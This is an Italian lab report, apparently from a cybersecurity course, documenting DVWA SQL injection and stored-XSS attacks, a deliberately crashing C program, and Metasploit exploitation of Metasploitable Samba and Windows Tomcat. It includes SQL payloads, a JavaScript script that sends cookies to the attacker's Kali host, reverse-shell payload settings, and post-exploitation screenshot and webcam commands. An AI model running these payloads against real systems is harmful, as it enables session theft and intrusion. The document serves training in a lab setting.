




# 🌐 S8 Build Week 2: **REPORT OPERATIVO – CYBERCERBERUS**

**🗓 Periodo:** 08/01/2025 - 11/01/2025
**👥 Team:** **CyberCerberus**  

## 🗂️ Indice

- ### [🚀 Inizio](#-introduzione)

- ### 📝 Tracce
  - [📌 1: SQL Injection su DVWA (Low e Medium)](#-traccia-giorno-1-sql-injection-su-dvwa-low-e-medium)
  - [📌 2: Exploit XSS Persistente su DVWA (Low e Medium)](#-traccia-giorno-2-exploit-xss-persistente-su-dvwa-low-e-medium)
  - [📌 3: Programma in C](#-traccia-giorno-3-programma-in-c)
  - [📌 4: Sfruttamento di Vulnerabilità sulla Macchina Metasploitable](#%EF%B8%8F-traccia-giorno-4-sfruttamento-di-vulnerabilità-sulla-macchina-metasploitable)
  - [📌 5: Exploit di Windows 10 con Metasploit](#%EF%B8%8F-traccia-giorno-5-exploit-di-windows-10-con-metasploit)

- ### 🕵️‍♂️ CTF Challenges Bonus
  - [🧩 CTF1](./CTF1.MD)
  - [🧩 CTF2](./CTF2.MD)

- ### [🚀 Conclusioni](#-conclusioni-e-prospettive-future)
---
---

# **🚀 Introduzione**

Durante questa **Build Week**, il team **CyberCerberus**, guidato da **Sebastiano Gelmetti** come Team Leader, ha affrontato un programma intensivo mirato all’acquisizione di competenze avanzate in attacco e difesa informatica. Abbiamo affrontato le seguenti sfide:

- SQL Injection 🔍
- Exploit XSS Persistente 💻
- Sviluppo e debugging di programmi in C ⚙️
- Sfruttamento di vulnerabilità su macchine virtuali con Metasploit 🗭️
- Risoluzione di 3 CTF 🕵️

### **👤 Composizione del team:**

- **Sebastiano Gelmetti** – *Team Leader* ⭐
- **Federica Cardinali**
- **Rinat Rustamov**
- **Manuel Izzo**
- **Andrea Calcagno**
- **Francesco Rossi**
- **Luca Nietrzeba**
- **Antonio Podda**
- **Alessandro Ragnino**

### **🎯 Obiettivi principali:**

Avanzare nell’analisi delle vulnerabilità e nell’applicazione di exploit reali, concentrandoci su:

- Simulazioni di attacchi su piattaforme vulnerabili come DVWA e Metasploitable.
- Uso di tool avanzati per il vulnerability assessment.
- Creazione e modifica di programmi in linguaggio C per simulare errori critici.

Per garantire l’allineamento del team e la condivisione delle competenze, abbiamo adottato un approccio collaborativo, lavorando tutti insieme su ogni attività.

---

## **Cronologia delle attività 🕒**

### **🔄 Metodologia**

Abbiamo deciso di concentrare tutte le attività relative alle **5 tracce** durante la giornata di martedì 08/01/2025, lasciando spazio nei giorni successivi per dedicarsi esclusivamente alle **3 CTF**. Questo approccio ci ha permesso di approfondire le tematiche trattate e garantire un avanzamento sinergico del team.

---
---
---
# 🛠 **TRACCIA GIORNO 1: SQL Injection su DVWA (Low e Medium)**

Questa guida fornisce istruzioni passo-passo per eseguire una SQL Injection sulla piattaforma **DVWA (Damn Vulnerable Web Application)**. L'obiettivo è estrarre i dati sensibili dell'utente **Pablo** in modalità **Low** e **Medium**, e decifrare la sua password hash **MD5**.

## **Requisiti**

1. **DVWA Configurato**: Assicurati che la piattaforma DVWA sia correttamente installata e configurata.
2. **Accesso a un Browser o Terminale** per inviare richieste SQL Injection.
3. **Livelli di Sicurezza** configurati in DVWA:
   - **Low** per la prima parte.
   - **Medium** per la seconda parte.

## 🔍 **Parte 1: SQL Injection in Modalità Low**

### 🎯 **Obiettivo**
Estrarre i dati dell'utente **Pablo**, inclusa la sua password hash MD5.


### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati dell'utente Pablo**:
   Inserisci il seguente payload nel campo **User ID**:
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde alla password `letmein`.
   - Puoi utilizzare uno strumento online come [https://crackstation.net](https://crackstation.net) per decifrare l'hash.


## 🔍 **Parte 2: SQL Injection in Modalità Medium**

### 🎯 **Obiettivo**
Superare i controlli di filtraggio e ottenere i dati di Pablo utilizzando payload in formato hexadecimal.



### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati di Pablo**:
   Usa il seguente payload nel campo **User ID**:
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```


   - `0x27` è il formato hexadecimal per l'apostrofo (`'`).
   - `0x5061626c6f` è il formato hexadecimal per `Pablo`.

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - Decifra l'hash `0d107d09f5bbe40cade3de5c71e9e9b7` utilizzando uno strumento come [Crackstation](https://crackstation.net) per ottenere la password: `letmein`.


## 🛠 **Strumenti Utili**

1. **Siti per decifrare hash MD5**:
   - [Crackstation](https://crackstation.net)
   - [MD5 Decrypt](https://md5decrypt.net)

2. **Tool di cracking**:
   - **Hashcat**:
     ```bash
     hashcat -a 0 -m 0 hash.txt wordlist.txt
     ```
   - **John the Ripper**:
     ```bash
     john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
     ```


## **Conclusione**

Seguendo questa guida, abbiamo dimostrato come eseguire una SQL Injection su DVWA per estrarre i dati dell'utente **Pablo** e decifrare la sua password MD5 `letmein`. Questi test sottolineano l'importanza di proteggere le applicazioni web da vulnerabilità di SQL Injection.

## [Torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).

---
---

# 🛡 **TRACCIA GIORNO 2: Exploit XSS Persistente su DVWA (Low e Medium)**

Questa guida documenta l'esecuzione di attacchi **Stored XSS** sulla piattaforma **DVWA** nei livelli di sicurezza **Low** e **Medium**. Verranno utilizzati payload compatti e tecniche per raccogliere informazioni sensibili, simulando un furto di dati.

---

## 🔧 Prerequisiti
1. **Ambiente configurato**:
   - **Kali Linux**: 192.168.50.165
   - **Metasploitable con DVWA**: 192.168.50.3
2. **DVWA configurato**:
   - Livelli di sicurezza impostati su **Low** e successivamente su **Medium**.
   - Database correttamente configurato.

---

## 📚 Struttura della guida
- **⚙️ Attacco al livello Low**: utilizzo di un payload diretto.
- **⚙️ Attacco al livello Medium**: utilizzo di un payload compatto con file remoto.
- **📊 Dump di dati**: raccolta di cookie, user agent e altre informazioni.
- **📸 Screenshot**: dimostrazione dei passaggi chiave.

---

## ⚙️ Attacco XSS Stored - Livello Low

### **1️⃣ Step 1: Preparazione**
1. Configura un web server su Kali Linux per ospitare il file `x.js`:
   ```bash
   python3 -m http.server 80
   ```
2. Crea il file `x.js` con il seguente contenuto:
   ```javascript
   // Raccogli tutte le informazioni disponibili
   let data = {
       cookies: document.cookie,
       userAgent: navigator.userAgent,
       language: navigator.language,
       platform: navigator.platform,
       screenResolution: `${screen.width}x${screen.height}`,
       windowSize: `${window.innerWidth}x${window.innerHeight}`,
       referrer: document.referrer,
       url: document.location.href,
       timestamp: new Date().toISOString()
   };

   // Invia i dati raccolti al server
   fetch('http://192.168.50.165:4444/', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify(data)
   });
   ```

### **2️⃣ Step 2: Inserimento Payload**
Inserisci il seguente payload nel campo **Message** di DVWA:
```html
<script src="http://192.168.50.165/x.js"></script>
```

### **3️⃣ Step 3: Avvia il Listener**
Configura un listener su Kali per ricevere i dati:
```bash
sudo nc -lvnp 4444
```

### **4️⃣ Step 4: Risultati**
Quando il commento viene visualizzato, i dati raccolti dal file `x.js` vengono inviati al listener.



---

## ⚙️ Attacco XSS Stored - Livello Medium

### **1️⃣ Step 1: Preparazione**
1. Configura il server web e utilizza lo stesso file `x.js` preparato per il livello Low.
2. Avvia il server web:
   ```bash
   python3 -m http.server 80
   ```

### **2️⃣ Step 2: Inserimento Payload**
Poiché il livello Medium ha restrizioni di lunghezza, utilizza un payload compatto:
```html

```

### **3️⃣ Step 3: Avvia il Listener**
Configura un listener su Kali per ricevere i dati:
```bash
sudo nc -lvnp 4444
```

### **4️⃣ Step 4: Risultati**
Quando il commento viene visualizzato, il file `x.js` viene caricato e i dati raccolti vengono inviati al listener.



---

## 📊 Dati Raccolti
Il file `x.js` raccoglie le seguenti informazioni:
- 🍪 **Cookies**: sessioni dell'utente.
- 🖥️ **User Agent**: browser e sistema operativo.
- 🌐 **Lingua del Browser**.
- 🖱️ **Piattaforma**: sistema operativo.
- 🖼️ **Risoluzione dello schermo**.
- 🪟 **Dimensioni della finestra**.
- 🔗 **Referrer**: URL della pagina precedente.
- 📍 **URL corrente**.
- ⏱️ **Timestamp**: data e ora dell'attacco.

---

## 🛡 Misure di Prevenzione
1. **🍪 HttpOnly Cookies**: Protegge i cookie dall'accesso tramite JavaScript.
2. **🛡 Validazione Input**: Sanitize sia lato client che lato server.
3. **📜 Content Security Policy (CSP)**: Limita l'esecuzione di script non autorizzati.
4. **✏️ Escape HTML Output**: Evita l'inserimento di script.

---

## [Torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).

---
---

# 🛠 TRACCIA GIORNO 3: Programma in C

## 📜 Triggerare un Segmentation Fault: Spiegazione e Logica 💻

In questo progetto, abbiamo esplorato come **forzare un segmentation fault** in un programma C, partendo da un programma originale funzionale. Abbiamo aggiunto modifiche per simulare errori critici e comprenderne le cause.

### 💻 Il programma originale

Il programma originale in linguaggio C permette di eseguire queste operazioni:

1️⃣ **Inserire 10 numeri interi**:  
   L'utente inserisce 10 numeri che vengono salvati in un array chiamato `vector`.

2️⃣ **Visualizzare i numeri inseriti**:  
   Dopo l'inserimento, il programma mostra i numeri forniti dall'utente.

3️⃣ **Ordinare i numeri**:  
   I numeri vengono ordinati in ordine crescente con un algoritmo chiamato Bubble Sort.

4️⃣ **Visualizzare i numeri ordinati**:  
   Alla fine, il programma mostra i numeri in ordine crescente.

### 📝 Come funziona?

- **🛠️ Crea uno spazio (array)** per 10 numeri.
- **🎤 Chiede all'utente** di inserire 10 numeri.
- **👀 Mostra i numeri** inseriti.
- **🔄 Li ordina** dal più piccolo al più grande.
- **✅ Mostra i numeri ordinati.**

**Esempio di risultato originale:**

```
Inserire 10 numeri interi:
[1]: 5
[2]: 3
[3]: 7
[4]: 9
[5]: 2
[6]: 8
[7]: 4
[8]: 1
[9]: 6
[10]: 10

Il vettore inserito è:
[1]: 5
[2]: 3
[3]: 7
...

Il vettore ordinato è:
[1]: 1
[2]: 2
[3]: 3
...
```

## ✨ Modifiche apportate al programma

Abbiamo aggiunto una nuova modalità al programma per simulare errori:

### **1️⃣ Modalità classica**
Il programma funziona come descritto sopra: inserisci 10 numeri, li ordina e li mostra.

### **2️⃣ Modalità con errore simulato**
La modalità con errore provoca intenzionalmente un segmentation fault accedendo a memoria non valida. Questa modifica serve a comprendere meglio come si verificano gli errori di accesso alla memoria.

#### **Come abbiamo simulato il segmentation fault?**

1. **Accesso a un puntatore nullo**:  
   Un puntatore nullo (`NULL`) è stato dereferenziato, generando un segmentation fault:
   ```c
   int *ptr = NULL;
   printf("Valore in *ptr: %d\n", *ptr);
   ```

2. **Accesso a memoria non allocata**:  
   Modificando un puntatore per puntare a un indirizzo arbitrario:
   ```c
   ptr = (int *)0xDEADBEEF;
   printf("Valore in *ptr: %d\n", *ptr);
   ```

Questi scenari garantiscono che il programma termini con un segmentation fault.

## 🧪 Risultati attesi

### **Modalità classica**
```
Inserire 10 numeri interi:
[1]: 1
[2]: 2
[3]: 3
...
Il vettore inserito è:
[1]: 1
[2]: 2
...
Il vettore ordinato è:
[1]: 1
[2]: 2
...
```

### **Modalità con errore**
```
Tentativo di accesso a un puntatore nullo:
Segmentation fault (core dumped)
```

## 🔑 Logica dietro il segmentation fault

1. **Il sistema operativo protegge la memoria**:  
   Solo le aree allocate possono essere utilizzate dal programma.
   
2. **Accesso non valido**:  
   Tentare di accedere a memoria non allocata provoca il fault.

3. **Puntatori errati**:  
   Puntatori non inizializzati o modificati sono una delle cause principali.

## ⚠️ Conclusioni
Con queste modifiche, il programma dimostra sia il funzionamento corretto che un errore simulato. Questo progetto aiuta a comprendere meglio i concetti di sicurezza e debugging nei programmi C. 🎯

## [Torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).

---
---

# 🛡️ TRACCIA GIORNO 4: Sfruttamento di Vulnerabilità sulla Macchina Metasploitable

## 📋 Descrizione
Sulla macchina **Metasploitable** sono stati individuati diversi servizi in ascolto potenzialmente vulnerabili. Lo scopo di questa traccia è:
1. 🖥️ Effettuare una scansione delle vulnerabilità con **Nessus**.
2. ⚙️ Sfruttare la vulnerabilità del servizio Samba attivo sulla porta **445 TCP** utilizzando **Metasploit**.
3. ✅ Verificare l'accesso alla macchina compromessa eseguendo il comando `ifconfig` per ottenere l'indirizzo IP della macchina vittima.

## 🔧 Requisiti
- **IP Kali Linux**: `192.168.50.165`
- **IP Metasploitable**: `192.168.50.3`
- **Porta di ascolto del payload**: `5555`
- **Tool utilizzati**: Nessus, MSFConsole (Metasploit)

## 🛠️ Passaggi Eseguiti

### 1. 🔍 Scansione delle Vulnerabilità con Nessus
1. **Avvio del servizio Nessus**:
   ```bash
   sudo systemctl start nessusd
   ```
2. **Accesso all'interfaccia web**:
   - URL: `https://localhost:8834`.
   - Completata la configurazione iniziale e aggiornato Nessus.
3. **Creazione della scansione**:
   - Tipo: **Basic Network Scan**.
   - Target: `192.168.50.3` (IP di Metasploitable).
4. **Esecuzione dello scan**:
   - La scansione ha identificato una vulnerabilità critica sul servizio Samba in ascolto sulla porta **445 TCP**.
5. **Report allegato**:
   - I dettagli della scansione sono disponibili nel file `nessus_scan_report.html`.

### 2. 💻 Attacco alla Macchina Metasploitable con Metasploit
1. **Avvio di MSFConsole**:
   ```bash
   msfconsole
   ```
2. **Ricerca dell'exploit appropriato**:
   - Comando:
     ```bash
     search samba
     ```
   - Trovato: **exploit/multi/samba/usermap_script** (indice: 15).
   - 
3. **Selezione dell'exploit**:
   - Comando:
     ```bash
     use 15
     ```
   - 
4. **Configurazione dei parametri dell'exploit**:
   - Impostazione dell'IP della macchina vittima:
     ```bash
     set RHOSTS 192.168.50.3
     ```
   - Impostazione della porta del servizio Samba:
     ```bash
     set RPORT 445
     ```
   - Configurazione del payload:
     ```bash
     set payload cmd/unix/reverse
     ```
   - Impostazione dell'IP e della porta di ascolto di Kali Linux:
     ```bash
     set LHOST 192.168.50.165
     set LPORT 5555
     ```
5. **Esecuzione dell'exploit**:
   - Comando:
     ```bash
     exploit
     ```
   - L'exploit ha avuto successo, fornendo una shell sulla macchina vittima.
   - 

---

### 3. 📡 Verifica dell'Accesso alla Macchina Compromessa
1. **Comando eseguito**:
   Una volta ottenuta la shell sulla macchina Metasploitable, è stato eseguito il comando:
   ```bash
   ifconfig
   ```
2. **Risultato**:
   - Confermato l'indirizzo IP della macchina vittima: `192.168.50.3`.

## ✅ Conclusioni
- 🔎 Il **Vulnerability Scanning** ha evidenziato una vulnerabilità critica nel servizio Samba sulla porta **445 TCP**.
- 💥 La vulnerabilità è stata sfruttata con successo utilizzando l'exploit **exploit/multi/samba/usermap_script** di Metasploit.
- 🖥️ È stato ottenuto accesso alla macchina compromessa e confermato l'indirizzo IP tramite il comando `ifconfig`.

## [Torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).

---
---

# 🛡️ TRACCIA GIORNO 5: Exploit di Windows 10 con Metasploit

## 📋 Descrizione
Sulla macchina **Windows 10** ci sono servizi che possono essere sfruttati per ottenere una sessione Meterpreter. L'obiettivo di questa traccia è:
1. Avviare i servizi richiesti sulla macchina target.
2. Effettuare una scansione delle vulnerabilità con **Nessus**.
3. Utilizzare Metasploit per exploitare il servizio **Tomcat**.
4. Confermare l'accesso alla macchina compromessa e raccogliere evidenze:
   - Verificare se è una macchina virtuale o fisica.
   - Recuperare le impostazioni di rete.
   - Controllare la presenza di webcam.
   - Catturare uno screenshot del desktop.

## 🔧 Requisiti
- **IP Kali Linux**: `192.168.50.165`
- **IP Windows 10**: `192.168.50.3`
- **Porta di ascolto (LPORT)**: `7777`
- **Tool utilizzati**: Nessus, MSFConsole, PowerShell

## 🛠️ Passaggi Eseguiti

### **1. Preparazione dei Servizi su Windows 10**
1. Accedere alla macchina target **Windows 10** (`192.168.50.3`).
2. Aprire `Gestione Servizi` (`services.msc`).
3. Avviare il servizio **Apache Tomcat** (se non è già attivo).
4. Verificare che il servizio sia in ascolto sulla porta **8080**.

### **2. Scansione delle Vulnerabilità con Nessus**
1. Avviare il servizio Nessus su Kali Linux:
   ```bash
   sudo systemctl start nessusd
   ```
2. Accedere all'interfaccia Nessus tramite il browser: `https://localhost:8834`.
3. Creare una nuova scansione:
   - Tipo: **Basic Network Scan**.
   - Target: `192.168.50.3`.
4. Avviare la scansione e identificare le vulnerabilità relative al servizio **Tomcat**.

### **3. Exploit con Metasploit**

#### **3.1 Configurazione dell'Exploit**
1. Avviare Metasploit su Kali Linux:
   ```bash
   msfconsole
   ```
2. Cercare gli exploit disponibili per Tomcat:
   ```bash
   search tomcat
   ```
3. Selezionare l'exploit **Tomcat Manager Upload**:
   ```bash
   use exploit/multi/http/tomcat_mgr_upload
   ```
4. Configurare i parametri dell'exploit:
   - Impostare l'IP della macchina target:
     ```bash
     set RHOSTS 192.168.50.3
     set RPORT 8080
     ```
   - Configurare le credenziali di Tomcat:
     ```bash
     set HttpUsername admin
     set HttpPassword password
     ```
   - Configurare il payload per la sessione Meterpreter:
     ```bash
     set payload java/meterpreter/reverse_tcp
     set LHOST 192.168.50.165
     set LPORT 7777
     ```
5. Lanciare l'exploit:
   ```bash
   exploit
   ```

### **4. Raccolta delle Evidenze sulla Macchina Compromessa**

#### **4.1 Verifica se la macchina è virtuale o fisica**
1. Eseguire il comando:
   ```bash
   sysinfo
   ```
   - Controllare le informazioni di sistema per riferimenti a VMware, VirtualBox, o altri hypervisor.
2. Per ulteriori verifiche, accedere alla shell:
   ```bash
   shell
   ```
   Eseguire:
   ```cmd
   systeminfo
   ```


#### **4.2 Recupero delle impostazioni di rete**
1. Tornare a Meterpreter ed eseguire:
   ```bash
   ipconfig
   ```
   - Annotare le configurazioni di rete.


#### **4.3 Controllo delle webcam**
1. Questo comando non è supportato dalla sessione `java/meterpreter`. Per verificare, utilizzare la shell di Windows:
   ```cmd
   wmic path win32_pnpentity get name | findstr /i "camera"
   ```


#### **4.4 Cattura di uno screenshot**
1. Aprire **PowerShell** dalla shell di Windows:
   ```cmd
   powershell
   ```
2. Eseguire lo script per salvare uno screenshot:
   ```powershell
   Add-Type -AssemblyName System.Windows.Forms; Add-Type -AssemblyName System.Drawing; $bmp = New-Object Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $graphics = [Drawing.Graphics]::FromImage($bmp); $graphics.CopyFromScreen(0, 0, 0, 0, $bmp.Size); $bmp.Save('C:\Windows\Temp\screenshot.png'); $bmp.Dispose(); $graphics.Dispose()
   ```
3. Tornare a Meterpreter e scaricare lo screenshot:
   ```bash
   download C:\Windows\Temp\screenshot.png
   ```

## 🛠️ Conclusioni
- Il servizio **Apache Tomcat** è stato sfruttato con successo per ottenere una sessione Meterpreter.
- Sono state raccolte evidenze riguardo alla macchina target:
  - Tipo di macchina (virtuale o fisica).
  - Configurazioni di rete.
  - Stato delle webcam.
  - Screenshot del desktop.

---
---

# **🔮 Conclusioni e Prospettive Future**

Il team **CyberCerberus** ha dimostrato competenze avanzate nell’analisi e sfruttamento di vulnerabilità, producendo risultati concreti tra cui:

- Guide operative dettagliate per SQL Injection, XSS e exploit su Metasploit.
- Programmi in linguaggio C per simulazioni avanzate.
- Risoluzione di 2 CTF assegnate.

## **Passi futuri:**

- Approfondimento delle tecniche di difesa contro attacchi SQL Injection e XSS.
- Estensione delle attività di exploit su altre piattaforme vulnerabili.
- Ottimizzazione delle pratiche di debugging e sviluppo in C.

Siamo entusiasti dei progressi fatti e pronti a proseguire il nostro viaggio nel mondo della Cybersecurity! Grazie per l’attenzione. 🙌

**Sebastiano Gelmetti**
Team Leader & Supervisor, **CyberCerberus** ⭐


## FINE DOCUMENTO, [torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).
